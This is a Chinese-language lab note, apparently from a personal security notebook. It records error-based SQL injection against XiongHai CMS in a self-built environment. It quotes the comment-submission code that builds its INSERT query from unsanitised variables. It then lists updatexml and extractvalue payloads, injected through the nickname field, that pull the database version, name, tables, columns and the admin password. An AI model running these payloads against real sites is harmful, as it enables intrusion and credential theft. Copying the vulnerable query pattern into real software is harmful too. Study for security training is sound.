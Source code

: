 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/自建环境_SQL报错盲注测试.md","permalink":"/安全/靶场/自建环境_SQL报错盲注测试/","title":"自建环境_SQL报错盲注测试"}
---
```


# 环境介绍

利用的是熊海CMS


在 `files/submit.php` 提交评论的文件中，有这样的代码
```php
$query = "INSERT INTO interaction (  
type,  
xs,  
cid,  
name,  
mail,  
url,  
touxiang,  
shebei,  
ip,  
content,  
tz,  
date  
) VALUES (  
'$type',  
'$xs',  
'$cid',  
'$name',  
'$mail',  
'$url',  
'$touxiang',  
'$shebei',  
'$ip',  
'$content',  
'$tz',  
now()  
)";  
@mysql_query($query) or die('新增错误：'.mysql_error());
```

也就是接收评论的信息然后插入数据库，最重要的是后面有报错返回

# 进行注入

接下来尝试将昵称改为payload

```sql
' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) and '
```
注意要闭合单引号


![Pasted image 20240801105510.png](/img/user/picture/Pasted%20image%2020240801105510.png)

发现确实可以注入


## 获取数据库名

```sql
' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) and '
```
![Pasted image 20240801105955.png](/img/user/picture/Pasted%20image%2020240801105955.png)

## 获取表名

构建payload
```sql
' and updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e),1) and '

```
`LIMIT 0,1` 用于逐步获取表名。你可以从 `LIMIT 0,1` 开始，逐步增加偏移量来获取更多的表名，例如 `LIMIT 1,1`、`LIMIT 2,1` 等。
![Pasted image 20240801114453.png](/img/user/picture/Pasted%20image%2020240801114453.png)

## 获取列名

以表`manang`为例

```sql
' and updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='manage' LIMIT 0,1),0x7e),1) and '

```

![Pasted image 20240801115106.png](/img/user/picture/Pasted%20image%2020240801115106.png)

得到列名
id,user,name,password,img,mail



## 表中信息

```sql
' and updatexml(1,concat(0x7e,(SELECT name FROM seacms.manage WHERE id='1' LIMIT 0,1),0x7e),1) and '
```

![Pasted image 20240801115533.png](/img/user/picture/Pasted%20image%2020240801115533.png)

发现在显示密码的时候显示不全
```sql
' and extractvalue(1, concat(0x7e, (SELECT password FROM seacms.manage WHERE id='1' LIMIT 0,1), 0x7e)) and '
```